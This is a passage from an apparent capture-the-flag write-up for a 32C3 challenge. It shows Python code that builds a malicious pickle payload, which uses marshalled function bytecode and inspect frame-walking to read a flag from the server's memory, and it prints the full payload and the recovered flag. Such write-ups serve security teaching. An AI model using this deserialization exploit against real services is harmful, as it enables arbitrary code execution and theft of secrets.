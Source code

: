 
```python
def fun1(frames):
    return frames[3][0]


def fun2(frames_data):
    return frames_data[-6][1]['flag'].flag

code1 = base64.b64encode(marshal.dumps(fun1.func_code))
code2 = base64.b64encode(marshal.dumps(fun2.func_code))

class Flag(object):
    pass

data = "cos\nwrite\n(I1\nctypes\nFunctionType\n(cmarshal\nloads\n(cbase64\nb64decode\n(S'"+code2+"'\ntRtR(dS''\n))tR(cinspect\ngetmembers\n(ctypes\nFunctionType\n(cmarshal\nloads\n(cbase64\nb64decode\n(S'"+code1+"'\ntRtR(dS''\n(t(ttR(cinspect\ngetouterframes\n(cinspect\ncurrentframe\n)RtRtRtRtRtR."
```

Which gives us a pickle:

```
cos
write
(I1
ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwEAAAABAAAAAgAAAEMAAABzEwAAAHwAAGQBABlkAgAZZAMAGWoAAFMoBAAAAE5p+v///2kBAAAAdAQAAABmbGFnKAEAAABSAAAAACgBAAAAdAsAAABmcmFtZXNfZGF0YSgAAAAAKAAAAABzRAAAAEM6L1VzZXJzL1BoYXJpc2FldXMvUHljaGFybVByb2plY3RzL3VudGl0bGVkL3NyYy8zMmMzL2d1cmtlL2d1cmtlLnB5dAQAAABmdW4yEAAAAHMCAAAAAAE='
tRtR(dS''
))tR(cinspect
getmembers
(ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwEAAAABAAAAAgAAAEMAAABzDAAAAHwAAGQBABlkAgAZUygDAAAATmkDAAAAaQAAAAAoAAAAACgBAAAAdAYAAABmcmFtZXMoAAAAACgAAAAAc0QAAABDOi9Vc2Vycy9QaGFyaXNhZXVzL1B5Y2hhcm1Qcm9qZWN0cy91bnRpdGxlZC9zcmMvMzJjMy9ndXJrZS9ndXJrZS5weXQEAAAAZnVuMQwAAABzAgAAAAAB'
tRtR(dS''
(t(ttR(cinspect
getouterframes
(cinspect
currentframe
)RtRtRtRtRtR.
```

And sending it to the server we get the flag: `32c3_rooDahPaeR3JaibahYeigoong`

If you're interested in some more details on pickle exploiting (and some more info on the stack language) read: https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf
